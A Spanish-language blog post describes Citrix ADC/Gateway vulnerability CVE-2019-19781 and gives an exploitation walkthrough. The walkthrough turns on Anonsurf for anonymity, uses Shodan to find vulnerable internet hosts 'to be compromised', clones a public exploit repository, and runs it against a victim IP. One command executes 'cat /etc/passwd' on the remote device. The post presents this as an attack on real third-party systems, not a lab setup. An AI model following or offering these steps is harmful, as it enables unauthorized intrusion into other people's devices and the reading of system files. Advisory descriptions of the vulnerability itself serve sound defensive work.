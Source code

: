 ```yaml
---
layout: single
title: Explotación de CVE-2019-19781 - Vulnerabilidades
excerpt: "Una vulnerabilidad de cruce de directorio de Citrix Application Delivery Controller (ADC) y Gateway, que puede llevar a la ejecución remota de código sin credenciales."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png
  teaser_home_page: true
  icon: /assets/images/citrix.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2019-19781
  - Citrix
  - Shodan
  - exploit-db
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-19781.png)

## Descripción

La vulnerabilidad CVE-2019-19781 corresponde con un ataque de directorio transversal que permitía a un atacante ejecutar de forma remota código arbitrario en varias versiones de los productos ADC y Gateway de Citrix, así como en versiones antiguas de Citrix SD-WAN WANOP.

Está valorada como crítica, con una puntuación de 9.8 y fue descubierta por el investigador Mikhail Klyuchnikov, trabajador de la empresa Positive Technologies, quien reportó de manera ética la incidencia siguiendo el procedimiento de publicación responsable aplicable en estos casos.

•	Tipo: Limitación incorrecta de nombre de ruta a un directorio restringido (Path Traversal)

•	Gravedad: Alta

•	Fecha publicación: 27/12/2019

•	Última modificación: 08/01/2020

# Productos Afectados:

•	Citrix ADC y Citrix Gateway versión 13.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.1 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 11.1 todas las compilaciones compatibles

•	Citrix NetScaler ADC y NetScaler Gateway versión 10.5 todas las compilaciones compatibles
 
# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197811.png)

Buscamos en la página Expoit Database, un exploit referente a la vulnerabilidad.

•	https://www.exploit-db.com/

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197812.png)

En la página de Shodan buscamos equipos con esta vulnerabilidad para ser vulnerados.

•	https://www.shodan.io/

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197813.png)

Se realiza la clonación del repositorio del exploit desde la página de GitHub.

•	Git clone https://github.com/projectzeroindia/CVE-2019-19781

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197814.png)

Ingresamos al directorio del Exploit descargado.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197815.png)

Dentro del directorio ejecutamos el siguiente comando.

•	python3 cve-2019-19781_scanner.py <IP DE LA VICTIMA> <PUERTO>

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197816.png)

Finalmente se evidencia que fue vulnerable y lista los directorios del dispositivo.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197817.png)

Probamos ejecutando otro comando.

•	bash CVE-2019-19781.sh <IP VICTIMA> 'cat /etc/passwd'

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-197818.png)




